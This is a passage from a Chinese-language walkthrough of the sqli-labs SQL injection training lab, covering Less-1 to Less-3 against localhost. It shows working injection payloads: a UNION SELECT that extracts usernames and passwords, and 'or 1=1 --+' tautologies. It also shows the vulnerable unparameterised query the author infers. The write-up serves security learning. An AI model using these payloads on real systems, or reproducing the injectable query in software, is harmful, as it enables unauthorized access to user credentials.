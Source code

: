     > 最后那个id=2可以改成3,4,5... ...

    ```
    http://localhost/sqli-labs/Less-1/?id=-1'union select 1,username,password from users where id=2--+
    ```

    此时的 sql 语句为 `SELECT * FROM users WHERE id=’-1’union select 1,username,password f
    rom users where id=2--+ LIMIT 0,1`

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.dxjasy45coi_1534071465.png)

    > Less1-less4 都可以利用上述 `union 操作`进行注入。下面就不进行赘述了。

### Less2
* 将`'`（单引号）添加到数字中。

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.siv9brk0hg_1534071471.png)

* 我们又得到了一个 Mysql 返回的错误，提示我们语法错误。
* 现在执行的查询语句如下:

    ```
    SELECT * FROM users WHERE id=1' LIMIT 0,1
    ```

    所以这里的**奇数个单引号**破坏了查询，导致抛出错误。因此我们得出的结果是，**查询代码使用了整数。**

    ```
    Select * from TABLE where id = (some integer value);
    ```

* 现在，从开发者的视角来看，为了对这样的错误采取保护措施，我们可以**注释掉剩余的查询,看是否正确响应**

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.buo6091mrs_1534071478.png)

* 因此，源代码中可以分析到 SQL 语句为下：

    ```
    $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
    ```

* 可以成功注入的有：

    ```
    or 1=1
    or 1=1 --+
    ```

* 其余的 payload 与 less1 中一样，只需要将 less1 中的`‘` 去掉即可。

### Less-3
* 首先加个单引号

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.t2zwn6n8u9_1534071484.png)

* 可以看到报错那里出来了一个），原来这就是单引号注入的变形，那么我们在没有最终的sql语句的情况下怎么判断呢
